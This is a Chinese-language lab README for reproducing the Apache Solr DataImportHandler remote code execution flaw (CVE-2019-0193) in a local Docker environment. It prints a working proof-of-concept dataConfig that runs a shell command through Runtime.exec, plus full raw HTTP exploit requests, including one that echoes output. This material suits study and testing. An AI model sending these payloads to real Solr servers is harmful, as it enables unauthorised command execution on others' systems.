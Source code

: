 # Apache Solr 远程命令执行漏洞（CVE-2019-0193）

漏洞原理与分析可以参考：

- https://mp.weixin.qq.com/s/typLOXZCev_9WH_Ux0s6oA
- https://paper.seebug.org/1009/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

本环境测试RCE漏洞。

## 漏洞环境

运行漏洞环境：

```
docker-compose up -d
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

## 漏洞复现

![](2.jpg)

如上图所示，首先打开刚刚创建好的`test`核心，选择Dataimport功能并选择debug模式，填入以下POC：

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

点击`Execute with this Confuguration`会发送以下请求包：

```
POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
Host: localhost:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 679
Connection: close
Referer: http://localhost:8983/solr/
Cookie: csrftoken=gzcSR6Sj3SWd3v4ZxmV5OcZuPKbOhI6CMpgp5vIMvr5wQAL4stMtxJqL2sUE8INi; sessionid=snzojzqa5zn187oghf06z6xodulpohpr

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport
```

执行`docker-compose exec solr ls /tmp`，可见`/tmp/success`已成功创建：

![](3.jpg)

## 有回显的POC
```
POST /solr/test/dataimport?command=full-import&debug=true&wt=json&indent=true&verbose=false&clean=false&commit=false&optimize=false&dataConfig=%3CdataConfig%3E%0D%0A%3CdataSource%20name%3D%22streamsrc%22%20type%3D%22ContentStreamDataSource%22%20loggerLevel%3D%22DEBUG%22%20%2F%3E%0D%0A%3Cscript%3E%3C!%5BCDATA%5B%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20function%20execute(row)%20%20%20%20%7B%0D%0Arow.put(%22id%22,'ThisIsATestToProveAVulnerability')%3B%0D%0Areturn%20row%3B%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7D%0D%0A%20%20%20%20%20%20%20%20%5D%5D%3E%3C%2Fscript%3E%0D%0A%3Cdocument%3E%0D%0A%20%20%20%20%3Centity%0D%0A%20%20%20%20%20%20%20%20stream%3D%22true%22%0D%0A%20%20%20%20%20%20%20%20name%3D%22streamxml%22%0D%0A%20%20%20%20%20%20%20%20datasource%3D%22streamsrc%22%0D%0A%20%20%20%20%20%20%20%20processor%3D%22XPathEntityProcessor%22%0D%0A%20%20%20%20%20%20%20%20rootEntity%3D%22true%22%0D%0A%20%20%20%20%20%20%20%20forEach%3D%22%2Fbooks%2Fbook%22%0D%0A%20%20%20%20%20%20%20%20transformer%3D%22script%3Aexecute%22%20%3E%0D%0A%09%09%09%3Cfield%20column%3D%22id%22%20name%3D%22id%22%2F%3E%0D%0A%20%20%20%20%3C%2Fentity%3E%0D%0A%3C%2Fdocument%3E%0D%0A%3C%2FdataConfig%3E HTTP/1.1
Host: localhost:8983
Content-Type: text/html
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 66

<?xml version="1.0" encoding="utf-8"?><books><book></book></books>
```
![](4.jpg)
